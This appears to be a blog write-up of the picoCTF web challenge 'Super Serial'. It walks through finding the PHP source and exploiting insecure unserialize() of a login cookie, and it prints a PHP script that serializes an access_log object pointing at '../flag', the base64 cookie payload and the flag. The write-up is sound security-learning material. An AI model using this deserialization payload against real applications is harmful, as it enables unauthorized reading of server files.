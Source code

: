 ```yaml
---
title: PHP Deserialization Injection
date: 2021-12-24 20:00:00 
layout: post
categories: CTF
tags: [CTF]
toc: true
---
```


# PHP Deserialization Injection
* Name: Super Serial
* Category: Web 
* Technique: `PHP Deserialization Injection`
* Hint: `The flag is at ../flag`
## Solution 
* Overview the challenge have a login form 
![image](https://user-images.githubusercontent.com/79050415/152352808-604d5a55-b4bd-453d-bc81-b58ade06ee9d.png)
* Initial reconnaissance
* The first i look at login form i think its `sql injection` but i used some payloads its response error, but name of the challenges `Super Serial` i gessing its `Deserialization`
* All challenges i solved always have attachment source code but this challenge must fuzzing found source code, i used `dirsearch` for fuzzing 
![image](https://user-images.githubusercontent.com/79050415/152356327-9c58ddd6-e844-4864-bf66-68569fd4f974.png)
* I found other pages 
```c
index.php
cookie.php
authentication.php
index.php
cookie.php
authentication.php
```
* I cant access this page i must add `s` because i access `robots.txt` its hint for me
![image](https://user-images.githubusercontent.com/79050415/152357593-2e3414d5-bff9-47a7-847a-8728722ee51e.png)
* After i access other pages i found a source code 
## Source Code Analysis
* `index.phps`
```c
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("../users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
?>
```
* `user` and `pass` used `POST` method 
* username and password assign variable `$perm_res` for authenticate
* if `$perm_res->is_guest()` and `$perm_res->is_admin()` are true `cookie` will create header `Location` set value equal `authentication.php` then its direct from login page to `welcome` page 
* `setcookie` `login` its created by serialize `$perm_res` variable then ` base64` and `urlencode` 
* `cookie.phps`
```c
<?php
session_start();

class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("../users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}

        function is_admin() {
                $admin = false;

                $con = new SQLite3("../users.db");
                $username = $this->username;
                $password = $this->password;
                $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
                $stm->bindValue(1, $username, SQLITE3_TEXT);
                $stm->bindValue(2, $password, SQLITE3_TEXT);
                $res = $stm->execute();
                $rest = $res->fetchArray();
                if($rest["username"]) {
                        if ($rest["admin"] == 1) {
                                $admin = true;
                        }
                }
                return $admin;
        }
}

if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

?>
 ```
 * The function `is_admin()` and ` is_guest()` are same check attribute username and password of `permission` class by query to database `users.db` because 2 function used `prepared statements` and `parameterized queries` so exploit sql injection is impossiable 
 * `IF` block code check cookie of `login` if serialize true its response flag and false its response message `Deserialization error`
 * `authentication.phps`
 ```c
 <?php

class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```
* Class `access_log` have 2 magic methods `__construct` and `__toString`. Method `__toString` response `read_log()`, `read_log()` will response content of file and transmisson ` constructor` of `access_log` class via ` file_get_contents` + Magic method wil execute when class create, therefore i created an object `access_log` 
```c
<?php

class access_log {
	public $log_file;
}

$object = new access_log;

$object->log_file = "../flag";

$serializedObject = serialize($object);

echo $serializedObject;

?>
```
* The script when i run 
![image](https://user-images.githubusercontent.com/79050415/152373825-40d495e7-8d98-40c5-a1a0-1a4ce1041f1d.png)
```c
O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}
```
* After that i encode payload above to base64 
```c
TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```
![image](https://user-images.githubusercontent.com/79050415/152377105-484a584a-6414-42f5-acf9-fa829d09ff4d.png)
* I change `name` and `value` of `cookies` 
![image](https://user-images.githubusercontent.com/79050415/152379335-6ab4f2d9-59d2-433a-8c70-c5fa95a4fc37.png)
* Finally i found a flag =)))
![image](https://user-images.githubusercontent.com/79050415/152379613-bd3c0580-6527-4f4c-96d0-b8da7a9a7d34.png)
 * FLAG `picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_8db8f85c}`




